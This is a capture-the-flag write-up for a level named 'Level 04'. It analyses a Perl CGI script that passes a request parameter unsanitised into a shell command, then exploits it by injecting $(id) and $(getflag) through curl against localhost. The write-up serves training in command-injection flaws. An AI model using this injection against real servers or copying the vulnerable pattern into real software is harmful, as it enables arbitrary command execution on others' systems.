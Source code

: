 # Level 04

## Initial Context

- A single perl file: `level04.pl`

## Solving the Challenge

### Analyzing

The file contains:

```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

It's a CGI file that is being executed when someone does a HTTP request to `localhost:4747`.

Looking at the code, we can see that it expects a `x` parameter and simply returns the value of `x`. 

```bash
$ curl http://localhost:4747?x=hello+world
hello world
```

:warning: This script is dangerous since it executes the `echo` command without any sanitization.

### Exploiting

Let's use a sub-shell to execute any command we want.

By using `x = $(<command>)`, we can execute arbitrary commands on the server side with the privileges of the server.

Using the `id` command, we can see which user has started the server.

```bash
$ curl http://localhost:4747?x=\$\(id\)
uid=3004(flag04) gid=2004(level04) groups=3004(flag04),1001(flag),2004(level04)
```

Using the `getflag` command, we can get the flag.

```bash
$ curl http://localhost:4747?x=\$\(getflag\)
Check flag.Here is your token : ....
```

Its the same as the previous level. We do not have a flag, but the password to go to the next level directly.